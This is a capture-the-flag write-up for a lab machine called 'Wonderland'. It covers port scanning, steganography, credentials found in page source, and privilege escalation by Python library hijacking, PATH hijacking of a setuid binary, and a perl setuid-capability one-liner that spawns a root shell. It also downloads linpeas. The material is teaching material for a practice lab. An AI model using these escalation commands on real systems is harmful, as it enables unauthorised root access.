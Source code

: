 # Wonderland

--------------------------------------------------------------------

**TOOLS USED**: nmap

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.210.160

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sC: script scan<br>
-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
```
nmap -sC -sV -oN nmap.txt 10.10.210.160
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    22 (ssh OpenSSH 7.6p1),<br>
    80 (http Golang),<br>

Enumerate hidden directories on website
```
dirb 10.10.210.160
```

![1.2](./imgs/1.2.png)

Found: /r/a, /poem

### 2. STEGANOGRAPHY

Download images in http://10.10.210.160/img/

```
binwalk ./img/*
```

![2.1](./imgs/2.1.png)

Looks like there is data hidden in alice_door.jpg

```
steghide extract -sf alice_door.jpg
```

passphrase required

try other image
```
steghide extract -sf white_rabbit_1.jpg
```

Found hint.txt

![2.2](./imgs/2.2.png)

follow the R A B B I T

http://10.10.210.160/r/a/b/b/i/t/ leads to alice_door.png

![2.3](./imgs/2.3.png)

Inspect element on http://10.10.210.160/r/a/b/b/i/t/

![2.4](./imgs/2.4.png)

found potential ssh login

**USERNAME**: alice<br>
**PASSWORD**: HowDothTheLittleCrocodileImproveHisShiningTail

### 3. SSH

log into ssh
```
ssh alice@10.10.210.160
```

HINT: everything is upside down

root.txt was in alice's home directory so user.txt should be in root

```
cat /root/user.txt
```

![3.1](./imgs/3.1.png)

**USER FLAG**: thm{"Curiouser and curiouser!"}

### 4. PIVOT TO RABBIT USER

Check user privileges
```
sudo -l
```

![4.1](./imgs/4.1.png)

alice can run /usr/bin/python3.6 and /home/alice/walrus_and_the_carpenter.py as rabbit

Inspect python program

imports library called random

![4.2](./imgs/4.2.png)

Calls the choice() method at the end

![4.3](./imgs/4.3.png)

Create new random.py file and test it out

![4.4](./imgs/4.4.png)

We can put in our own code in random.py and run the original python program as user rabbit

Modified random.py to spawn shell so when python program is run as rabbit it will create a shell for user rabbit

![4.5](./imgs/4.5.png)

Run program as rabbit
```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

![4.6](./imgs/4.6.png)

```
cd /home/rabbit
file teaParty
```

![4.7](./imgs/4.7.png)

ELF file

```
./teaParty
```

![4.8](./imgs/4.8.png)

```
cat teaParty
```

![4.9](./imgs/4.9.png)

Program is executing 
```
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```

```
ls -la teaParty
```

![4.10](./imgs/4.10.png)

Sticky bit is set so We can target the date command so it will be executed as root

### 5. PRIVILEGE ESCALATION

Create custom date script
```
mkdir bin
vim date
```

![5.1](./imgs/5.1.png)

Add to PATH and run teaParty
```
export PATH="/home/rabbit/bin:$PATH"
./teaParty
```

![5.2](./imgs/5.2.png)

Created hatter user shell

found password for hatter user<br>
**PASSWORD**: WhyIsARavenLikeAWritingDesk?

Run linpeas
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas
scp linpeas hatter@10.10.210.160:/home/hatter/linpeas
ssh hatter@10.10.210.160
chmod +x linpeas
./linpeas
```

![5.3](./imgs/5.3.png)

From https://materials.rangeforce.com/tutorial/2020/02/19/Linux-PrivEsc-Capabilities/<br>
We can exploit perl capabilities<br>
Capabilities are granular escalated user privileges for certain programs<br>
Perl has the capability to use the setuid function in order to become root

Can also use this command to check capabilities<br>
2 is standard error<br>
2>/dev/null redirects stderr to /dev/null
```
getcap -r / 2>/dev/null
```

![5.4](./imgs/5.4.png)

We can use this command to exploit perl capabilities<br>
-e execute command<br>
use POSIX (setuid) imports setuid<br>
POSIX::setuid(0) sets the uid to 0 (root)
```
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

![5.4](./imgs/5.4.png)

**ROOT FLAG**: thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}